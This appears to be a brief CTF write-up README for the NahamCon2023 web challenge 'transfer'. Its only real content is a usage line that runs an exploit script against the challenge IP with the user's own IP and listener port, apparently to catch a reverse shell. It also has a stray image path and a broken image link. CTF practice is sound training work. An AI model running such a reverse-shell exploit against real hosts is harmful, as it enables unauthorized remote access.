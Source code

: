 # NahamCon2023 CTF

```Web Challenge : transfer```
python3 exploit.py <challengeIp> <yourip:listnerport>

![Image]([poc.png)


# Team: Saudi
